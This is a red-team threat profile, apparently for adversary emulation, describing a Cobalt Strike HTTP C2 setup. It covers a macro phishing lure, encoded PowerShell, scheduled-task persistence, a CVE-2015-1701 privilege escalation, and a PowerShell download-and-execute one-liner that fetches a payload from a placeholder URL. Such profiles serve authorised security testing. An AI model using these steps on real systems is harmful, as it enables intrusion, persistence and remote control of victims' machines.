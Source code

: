```yaml
---
title: "Threat Profile: SIMPLESAM"
description: >
  SIMPLESAM threat profile example
---
```


# Threat Profile (SIMPLESAM)

:::tip
A modified version of this profile was used on an assumed breach engagement. This profile is provide as an example to show details that supported a real engagement. 
:::

## Description

C2 threat modeled after basic HTTP C2 using powershell and phishing as primary entry point. This profile represents commodity malware that doesn't focus on advanced techniques.

## Characteristics

 - C2 Backend: CobaltStrike
 - Port(s): 80
 - C2 Communication using HTTP Traffic
 - Executes as powershell encoded command
 - IP communication using IP addresses
 - Persistence: Scheduled Task

HTTP Request Profile

 - UserAgent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/6.0)"
 - GET: /s/ref=nb_sb_nos_2/143-3245
 - POST /S2854/auth/aws-hb

## System Modifications

### Files

 - None

### Registry

 - Schedule Task executed at user logon
 - Task Name: Updater

### WMI

 - None

-----------------------------------------------------

## Deployment Steps

Phishing Payload

 - Modify an excel document payload with a macros that launches a powershell encoded payload 

Powershell Payload

 - Create CobaltStrike C2 Profile
 - Build payloads using profile
 - Powershell Payload
 - Create Scheduled Task script with file and path to payload
   - Update persistence script with powershell payload
   - line 78 : Update encoded Powershell payload here
   - line 154: Update Domain name here

## Persistence Steps (via CobaltStrike Beacon Console)

  ```PowerShell
  powershell-import /data/PAYLOADS/Invoke-Persistence.ps1
  powershell Invoke-Persistence -Name Updater -CreatePersistence -ScheduledTask
  ```

## Privilege Escalation (based on CVE-2015-1701)

Compile exploit and name ghost.exe

>Reference: https://www.exploit-db.com/exploits/37049/

 - 32 Bit Binary: ghost.exe
 - Usage: 

```
ghost.exe powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://< TARGETURL >'))"
```

Powershell uses download and execute via encoded command

Encoded command starts a new beacon as SYSTEM



